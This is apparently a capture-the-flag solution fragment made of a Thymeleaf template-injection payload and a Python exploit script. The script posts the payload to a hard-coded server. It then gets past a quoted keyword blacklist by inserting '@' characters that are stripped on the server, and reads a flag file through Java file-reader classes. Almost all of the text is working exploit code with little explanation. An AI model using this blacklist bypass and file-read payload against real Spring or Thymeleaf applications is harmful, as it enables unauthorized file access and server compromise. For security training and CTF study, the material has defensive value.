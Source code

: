 `[[*{__${#strings.replace(param.foo[0],param.bbb[0],param.t[0])}__}]]`



exp:

```python
import requests
import re
import gen
#  private static String[] blacklists = { "java.+lang", "Runtime|Process|byte|OutputStream|session|\"|'", "exec.*\\(", "write|read", "invoke.*\\(", "\\.forName.*\\(", 
# "lookup.*\\(", "\\.getMethod.*\\(", 
# "javax.+script.+ScriptEngineManager", "com.+fasterxml", "org.+apache", "org.+hibernate", "org.+thymeleaf", "javassist", "javax\\.", "eval.*\\(", "\\.getClass\\(",
#  "org.+springframework", "javax.+el", "java.+io" };

code = "param.foo"
payload ='''<p th:text=${%s}></p>'''%code
cmd=payload
cmd="""[[*{__${#strings.replace(param.foo[0],param.bbb[0],param.t[0])}__}]] """
print(cmd)
burp0_url = "http://116.85.37.131:80/6f0887622b5e34b5c9243f3ff42eb605/;/web/68759c96217a32d5b368ad2965f625ef/customize"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://116.85.37.131", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/;/web/68759c96217a32d5b368ad2965f625ef/index", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_data = {"content": cmd}
response=requests.post(burp0_url, headers=burp0_headers, data=burp0_data).text

try:
    redirect = re.search('fetch \./(.*) !', response).group(1)
except :
    print(response)
url = 'http://116.85.37.131/6f0887622b5e34b5c9243f3ff42eb605/;/web/68759c96217a32d5b368ad2965f625ef/'
url += redirect

print(requests.get(url,params={"foo":"NEW java.util.Scanner(NEW java.i@o.BufferedRea@der(new java.i@o.Fi@leRe@ad@er(new java.i@o.Fi@le("+gen.gen("/flag_is_here")+")))).nextLine()","bbb":'@',"t":"",'g':'ls'},proxies={"http":"http://127.0.0.1:8080"}).text)
```

